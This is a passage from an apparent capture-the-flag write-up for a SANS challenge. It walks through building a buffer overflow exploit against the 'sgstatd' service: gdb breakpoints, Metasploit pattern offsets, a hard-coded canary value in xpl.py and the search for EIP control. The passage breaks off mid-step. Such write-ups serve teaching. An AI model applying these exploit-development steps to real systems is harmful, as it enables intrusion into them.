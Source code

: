 ```

On the Server VM, gdb/sgstatd were restarted and this time, the breakpoint was set *after* the message processing:

<figure>
	<a href="/images/2016-01-sans/6n.png"><img src="/images/2016-01-sans/6n.png"></a>
</figure>

```xpl.py``` was modified to send the pattern instead of the 200 "A" characters and run. When the breakpoint had been reached, the memory location ```0xBFFFF064``` (where the canary value used to be stored) was examined and found to have been overwritten with ```64413464```:

<figure>
	<a href="/images/2016-01-sans/7n.png"><img src="/images/2016-01-sans/7n.png"></a>
	<figcaption></figcaption>
</figure>

To correlate this value with a location within the sent message, ```pattern_offset.rb``` was used:

```
# /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb 64413464
[*] Exact match at offset 103
```

Having learned that the characters relating to memory location ```0xBFFFF064`` were starting at position 104 of the message, the ```msg``` variable inside ```xpl.py``` was modified to write the correct canary value at the hopefully correct location:

{% highlight python %}
    msg = 'A' * 103
    msg += '\xe4\xff\xff\xe4' # Canary
    msg += 'D' * 93
{% endhighlight %}

When this version of ```xpl.py``` was run against the server, the "Canary not repaired" message did not appear. Instead, ```sgstatd``` crashed and gdb printed an error message suggesting that EIP had been overwritten with four of the 93 "D" characters, each represented by a ```44``` byte below:

<figure>
	<a href="/images/2016-01-sans/9n.png"><img src="/images/2016-01-sans/9n.png"></a>
</figure>

To determine which "D" characters would control EIP, they were replaced with the previously mentioned pattern:

{% highlight python %}
    pattern200 = 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag'

    msg = 'A' * 103
    msg += '\xe4\xff\xff\xe4' # Canary
    msg += pattern200 # previously:'D' * 93
{% endhighlight %}

This time, EIP had been set to ```61413161``` ...

<figure>
	<a href="/images/2016-01-sans/10n.png"><img src="/images/2016-01-sans/10n.png"></a>
</figure>

... corresponding to offset 4 within the pattern:

```

[img1]: /images/2016-01-sans/
